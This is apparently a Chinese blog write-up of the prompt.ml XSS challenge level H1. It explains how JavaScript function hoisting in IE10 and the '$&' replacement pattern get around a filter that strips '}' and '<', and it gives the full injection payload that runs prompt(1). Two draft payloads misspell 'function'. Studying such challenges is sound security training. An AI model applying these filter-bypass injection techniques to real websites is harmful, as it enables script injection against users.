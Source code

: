 ## [[prompt(1) to win](http://prompt.ml)] [[Level H1 – Hoisting](http://prompt.ml/-1)] [[解题报告](http://exp-blog.com/2019/06/09/pid-3891/)]

------

## 题目

```javascript
function escape(input) {
    // WORLD -1

    // strip off certain characters from breaking conditional statement
    input = input.replace(/[}<]/g, '');

    return '                                                     \n\
<script>                                                         \n\
    if (history.length > 1337) {                                 \n\
        // you can inject any code here                          \n\
        // as long as it will be executed                        \n\
        {{injection}}                                            \n\
    }                                                            \n\
</script>                                                        \n\
    '.replace('{{injection}}', input);
}
```

------------

## 分析

从代码可以知道，注入点在 `if` 内部，很自然有三种思路：

- 使得 `history.length > 1337` 条件成立
- 闭合 `if`
- 闭合 `<script>`

但是由于 `}` 和 `<` 被过滤了，因此不论闭合 `if` 还是 `<script>` 都是不可能的，剩下的方法就是想办法令到 `history.length > 1337` 条件成立。

------------

## 前置知识

- [history](http://www.w3school.com.cn/jsref/dom_obj_history.asp)
- [Function length](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Function/length)
- [Function Hoisting](https://elegantcode.com/2011/03/24/basic-javascript-part-12-function-hoisting/)
- [String.prototype.replace()](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/String/replace)

------------

## 解题思路

这三个知识点是这题的解题关键。

关于 `history` 对象，需要知道的是它不可被直接读写，目前唯一保留的 API 只有 4 个：`length` 、 `back()` 、 `forward()` 、 `go()` 。

而在本题中用到的 `length` ，它会在首次打开浏览器窗口的时候置 0 ，每访问一个新得页面自动 +1 。但是这个特性并不能被利用来解题，原因是 `length` 得上限值是 50，而条件中的目标值是 1337 ，即使我们预先访问了 1337 个页面， `length` 的值还是 50 ，仍然无法绕过条件。

------------


但这并不意味着毫无办法了：因为 `history` 说到底就是一个全局对象，我们可以构造一个同名的 `history` 对象（必定是局部对象）实现对全局对象的覆盖。同时只要所构造的这个 `history` 局部对象同样具备 `length` 属性，且可以被我们自由控制，那么就能实现 `if` 条件绕过了。

既然可以使用局部对象覆盖，那么就有两个选择：

- 局部变量（如数组）：可以初始化数组的元素个数控制 `length` 属性
- 局部函数 ：可以通过声明入参的个数控制 `length` 属性

但是不要忘了，我们的注入点是在 `if` 里面的，亦即不管我们声明 `history` 局部函数、还是声明 `history` 局部变量，都是在 `history.length` 条件后面的位置，亦即会出现 **先使用后声明** 的语法错误。

------------


而为了解决这个问题，可以利用 Javascript 中的 Hoisting （提升）机制：在早期的 Javascript 编译器中，会把所有出现在代码中的 变量声明 或 函数声明，全部移到代码的开头。

不过 变量提升 和 函数提升 之间还是存在区别的：

- 变量提升：仅仅是把 声明变量的语句 提升到代码的开头，但是初始化语句还是保留在原有位置不变的，如果在初始化语句之前就使用了该变量，依然会出现语法错误（变量未定义）
- 函数提升：函数不存在初始化的说法，从而因为提升机制，使得函数只要在任意地方声明过一次，就可以在任何位置调用。

回到这题，由于注入点在 `if` 里面，所有我们应该选择函数提升，而不是变量提升。

> Javascript 的 Hoisting 机制仅在早期的编译器支持，现在 9102 年绝大部分浏览器都不会这样做了，经测试只有 IE10 还支持这种机制，换言之要用 Hoisting 机制解题，只能使用 IE10 浏览器。

------------

## 构造 payload

根据前面的思路，我们构造 payload 的方法为：在注入点声明一个 `history` 局部函数，函数入参数量至少为 1338 ，就能使得 `if` 条件成立，从而执行我们注入的代码。

例如 payload 为：

```javascript
funcation history(a1, a2, a3, ......, a1338) { /* any codes */ } prompt(1);
```

不过这个 payload 有个问题：就是我们要构造 `history` 函数，就需要使用到花括号 `{ }` ，但是 `}` 已经被题目过滤了 ！换言之我们不能直接输入 `}` 。

不能直接输入，但是可以间接输入。

绕过的方法需要利用到题目 JS 的 `replace('{{injection}}', input)` 函数的语法，第二个由我们控制的参数 input 是可以插入特殊变量名以达到某些效果的（详见 [这里](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/String/replace) ）：

![](http://exp-blog.com/wp-content/uploads/2019/06/0eface7680688792a7bb33c541c397ac.png)

而我们要使用的特殊变量名，就是

```
$&      // 这个变量名的效果是 【插入当前匹配的子串自身】。
```

就这题而言，因为 `replace('{{injection}}', input)` 被匹配的子串必定是 `{{injection}}`，利用 `$&` 将其插入到我们的 payload ，就能获得两对花括号 `{{ }}` 了，而里面的一对花括号会被编译器认为是局部代码块，因此并不会影响语法。

所以我们应该构造的 payload 为 ：

```javascript
funcation history(a1, a2, a3, ......, a1338) $& prompt(1);
```

当这个 payload 经过题目的 `replace('{{injection}}', input)` 函数处理，就会得到我们想要的效果：

```javascript
<script>
    if (history.length > 1337) {
        funcation history(a1, a2, a3, ......, a1338) {{injection}} prompt(1);
    }
</script>
```

------------

## 完成挑战

最后，输入这个 payload 到 IE10 即可完成挑战：

```javascript
function history(a1,a2,a3,a4,a5,a6,a7,a8,a9,a10,a11,a12,a13,a14,a15,a16,a17,a18,a19,a20,a21,a22,a23,a24,a25,a26,a27,a28,a29,a30,a31,a32,a33,a34,a35,a36,a37,a38,a39,a40,a41,a42,a43,a44,a45,a46,a47,a48,a49,a50,a51,a52,a53,a54,a55,a56,a57,a58,a59,a60,a61,a62,a63,a64,a65,a66,a67,a68,a69,a70,a71,a72,a73,a74,a75,a76,a77,a78,a79,a80,a81,a82,a83,a84,a85,a86,a87,a88,a89,a90,a91,a92,a93,a94,a95,a96,a97,a98,a99,a100,a101,a102,a103,a104,a105,a106,a107,a108,a109,a110,a111,a112,a113,a114,a115,a116,a117,a118,a119,a120,a121,a122,a123,a124,a125,a126,a127,a128,a129,a130,a131,a132,a133,a134,a135,a136,a137,a138,a139,a140,a141,a142,a143,a144,a145,a146,a147,a148,a149,a150,a151,a152,a153,a154,a155,a156,a157,a158,a159,a160,a161,a162,a163,a164,a165,a166,a167,a168,a169,a170,a171,a172,a173,a174,a175,a176,a177,a178,a179,a180,a181,a182,a183,a184,a185,a186,a187,a188,a189,a190,a191,a192,a193,a194,a195,a196,a197,a198,a199,a200,a201,a202,a203,a204,a205,a206,a207,a208,a209,a210,a211,a212,a213,a214,a215,a216,a217,a218,a219,a220,a221,a222,a223,a224,a225,a226,a227,a228,a229,a230,a231,a232,a233,a234,a235,a236,a237,a238,a239,a240,a241,a242,a243,a244,a245,a246,a247,a248,a249,a250,a251,a252,a253,a254,a255,a256,a257,a258,a259,a260,a261,a262,a263,a264,a265,a266,a267,a268,a269,a270,a271,a272,a273,a274,a275,a276,a277,a278,a279,a280,a281,a282,a283,a284,a285,a286,a287,a288,a289,a290,a291,a292,a293,a294,a295,a296,a297,a298,a299,a300,a301,a302,a303,a304,a305,a306,a307,a308,a309,a310,a311,a312,a313,a314,a315,a316,a317,a318,a319,a320,a321,a322,a323,a324,a325,a326,a327,a328,a329,a330,a331,a332,a333,a334,a335,a336,a337,a338,a339,a340,a341,a342,a343,a344,a345,a346,a347,a348,a349,a350,a351,a352,a353,a354,a355,a356,a357,a358,a359,a360,a361,a362,a363,a364,a365,a366,a367,a368,a369,a370,a371,a372,a373,a374,a375,a376,a377,a378,a379,a380,a381,a382,a383,a384,a385,a386,a387,a388,a389,a390,a391,a392,a393,a394,a395,a396,a397,a398,a399,a400,a401,a402,a403,a404,a405,a406,a407,a408,a409,a410,a411,a412,a413,a414,a415,a416,a417,a418,a419,a420,a421,a422,a423,a424,a425,a426,a427,a428,a429,a430,a431,a432,a433,a434,a435,a436,a437,a438,a439,a440,a441,a442,a443,a444,a445,a446,a447,a448,a449,a450,a451,a452,a453,a454,a455,a456,a457,a458,a459,a460,a461,a462,a463,a464,a465,a466,a467,a468,a469,a470,a471,a472,a473,a474,a475,a476,a477,a478,a479,a480,a481,a482,a483,a484,a485,a486,a487,a488,a489,a490,a491,a492,a493,a494,a495,a496,a497,a498,a499,a500,a501,a502,a503,a504,a505,a506,a507,a508,a509,a510,a511,a512,a513,a514,a515,a516,a517,a518,a519,a520,a521,a522,a523,a524,a525,a526,a527,a528,a529,a530,a531,a532,a533,a534,a535,a536,a537,a538,a539,a540,a541,a542,a543,a544,a545,a546,a547,a548,a549,a550,a551,a552,a553,a554,a555,a556,a557,a558,a559,a560,a561,a562,a563,a564,a565,a566,a567,a568,a569,a570,a571,a572,a573,a574,a575,a576,a577,a578,a579,a580,a581,a582,a583,a584,a585,a586,a587,a588,a589,a590,a591,a592,a593,a594,a595,a596,a597,a598,a599,a600,a601,a602,a603,a604,a605,a606,a607,a608,a609,a610,a611,a612,a613,a614,a615,a616,a617,a618,a619,a620,a621,a622,a623,a624,a625,a626,a627,a628,a629,a630,a631,a632,a633,a634,a635,a636,a637,a638,a639,a640,a641,a642,a643,a644,a645,a646,a647,a648,a649,a650,a651,a652,a653,a654,a655,a656,a657,a658,a659,a660,a661,a662,a663,a664,a665,a666,a667,a668,a669,a670,a671,a672,a673,a674,a675,a676,a677,a678,a679,a680,a681,a682,a683,a684,a685,a686,a687,a688,a689,a690,a691,a692,a693,a694,a695,a696,a697,a698,a699,a700,a701,a702,a703,a704,a705,a706,a707,a708,a709,a710,a711,a712,a713,a714,a715,a716,a717,a718,a719,a720,a721,a722,a723,a724,a725,a726,a727,a728,a729,a730,a731,a732,a733,a734,a735,a736,a737,a738,a739,a740,a741,a742,a743,a744,a745,a746,a747,a748,a749,a750,a751,a752,a753,a754,a755,a756,a757,a758,a759,a760,a761,a762,a763,a764,a765,a766,a767,a768,a769,a770,a771,a772,a773,a774,a775,a776,a777,a778,a779,a780,a781,a782,a783,a784,a785,a786,a787,a788,a789,a790,a791,a792,a793,a794,a795,a796,a797,a798,a799,a800,a801,a802,a803,a804,a805,a806,a807,a808,a809,a810,a811,a812,a813,a814,a815,a816,a817,a818,a819,a820,a821,a822,a823,a824,a825,a826,a827,a828,a829,a830,a831,a832,a833,a834,a835,a836,a837,a838,a839,a840,a841,a842,a843,a844,a845,a846,a847,a848,a849,a850,a851,a852,a853,a854,a855,a856,a857,a858,a859,a860,a861,a862,a863,a864,a865,a866,a867,a868,a869,a870,a871,a872,a873,a874,a875,a876,a877,a878,a879,a880,a881,a882,a883,a884,a885,a886,a887,a888,a889,a890,a891,a892,a893,a894,a895,a896,a897,a898,a899,a900,a901,a902,a903,a904,a905,a906,a907,a908,a909,a910,a911,a912,a913,a914,a915,a916,a917,a918,a919,a920,a921,a922,a923,a924,a925,a926,a927,a928,a929,a930,a931,a932,a933,a934,a935,a936,a937,a938,a939,a940,a941,a942,a943,a944,a945,a946,a947,a948,a949,a950,a951,a952,a953,a954,a955,a956,a957,a958,a959,a960,a961,a962,a963,a964,a965,a966,a967,a968,a969,a970,a971,a972,a973,a974,a975,a976,a977,a978,a979,a980,a981,a982,a983,a984,a985,a986,a987,a988,a989,a990,a991,a992,a993,a994,a995,a996,a997,a998,a999,a1000,a1001,a1002,a1003,a1004,a1005,a1006,a1007,a1008,a1009,a1010,a1011,a1012,a1013,a1014,a1015,a1016,a1017,a1018,a1019,a1020,a1021,a1022,a1023,a1024,a1025,a1026,a1027,a1028,a1029,a1030,a1031,a1032,a1033,a1034,a1035,a1036,a1037,a1038,a1039,a1040,a1041,a1042,a1043,a1044,a1045,a1046,a1047,a1048,a1049,a1050,a1051,a1052,a1053,a1054,a1055,a1056,a1057,a1058,a1059,a1060,a1061,a1062,a1063,a1064,a1065,a1066,a1067,a1068,a1069,a1070,a1071,a1072,a1073,a1074,a1075,a1076,a1077,a1078,a1079,a1080,a1081,a1082,a1083,a1084,a1085,a1086,a1087,a1088,a1089,a1090,a1091,a1092,a1093,a1094,a1095,a1096,a1097,a1098,a1099,a1100,a1101,a1102,a1103,a1104,a1105,a1106,a1107,a1108,a1109,a1110,a1111,a1112,a1113,a1114,a1115,a1116,a1117,a1118,a1119,a1120,a1121,a1122,a1123,a1124,a1125,a1126,a1127,a1128,a1129,a1130,a1131,a1132,a1133,a1134,a1135,a1136,a1137,a1138,a1139,a1140,a1141,a1142,a1143,a1144,a1145,a1146,a1147,a1148,a1149,a1150,a1151,a1152,a1153,a1154,a1155,a1156,a1157,a1158,a1159,a1160,a1161,a1162,a1163,a1164,a1165,a1166,a1167,a1168,a1169,a1170,a1171,a1172,a1173,a1174,a1175,a1176,a1177,a1178,a1179,a1180,a1181,a1182,a1183,a1184,a1185,a1186,a1187,a1188,a1189,a1190,a1191,a1192,a1193,a1194,a1195,a1196,a1197,a1198,a1199,a1200,a1201,a1202,a1203,a1204,a1205,a1206,a1207,a1208,a1209,a1210,a1211,a1212,a1213,a1214,a1215,a1216,a1217,a1218,a1219,a1220,a1221,a1222,a1223,a1224,a1225,a1226,a1227,a1228,a1229,a1230,a1231,a1232,a1233,a1234,a1235,a1236,a1237,a1238,a1239,a1240,a1241,a1242,a1243,a1244,a1245,a1246,a1247,a1248,a1249,a1250,a1251,a1252,a1253,a1254,a1255,a1256,a1257,a1258,a1259,a1260,a1261,a1262,a1263,a1264,a1265,a1266,a1267,a1268,a1269,a1270,a1271,a1272,a1273,a1274,a1275,a1276,a1277,a1278,a1279,a1280,a1281,a1282,a1283,a1284,a1285,a1286,a1287,a1288,a1289,a1290,a1291,a1292,a1293,a1294,a1295,a1296,a1297,a1298,a1299,a1300,a1301,a1302,a1303,a1304,a1305,a1306,a1307,a1308,a1309,a1310,a1311,a1312,a1313,a1314,a1315,a1316,a1317,a1318,a1319,a1320,a1321,a1322,a1323,a1324,a1325,a1326,a1327,a1328,a1329,a1330,a1331,a1332,a1333,a1334,a1335,a1336,a1337,a1338) $& prompt(1);
```

![](http://exp-blog.com/wp-content/uploads/2019/06/d6c3829f7677e4a52c6b5f5233d8164a.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
